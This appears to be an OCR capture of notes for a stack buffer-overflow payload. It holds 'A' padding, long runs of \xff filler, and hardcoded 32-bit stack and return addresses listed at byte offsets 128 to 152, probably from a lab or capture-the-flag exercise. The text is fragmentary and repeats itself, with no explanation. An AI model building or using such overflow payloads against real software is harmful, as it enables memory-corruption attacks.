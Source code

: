 
    The following == 64 bytes

    771675175\x00AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA


    // FINAL
    \xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff
    \xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff
    \xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff
    \xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff
    \xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff
    \xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff
    \xff\xff\xff\xff\xff\xff\xff\xff\x78\xf0\xff\xbf\x30\xf1\xff\xbf\x00\x00\x00\x00
    \x30\xf5\xff\xbf\x48\xf5\xff\xbf\x34\x85\x04\x08


    \xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\x78\xf0\xff\xbf\x30\xf1\xff\xbf\x00\x00\x00\x00\x30\xf5\xff\xbf\x48\xf5\xff\xbf\x34\x85\x04\x08





    \xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff
    \xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff
    \xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff
    \xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff
    \xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff
    \xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff
    \xff\xff\xff\xff\xff\xff\xff\xff
    128

    \x78\xf0\xff\xbf
    132
    \x30\xf1\xff\xbf
    136
    \x00\x00\x00\x00
    140
    \x30\xf5\xff\xbf
    144
    \x48\xf5\xff\xbf
    148
    \x34\x85\x04\x08
    152







    \x78\xf0\xff\xbf
    0xbffff078
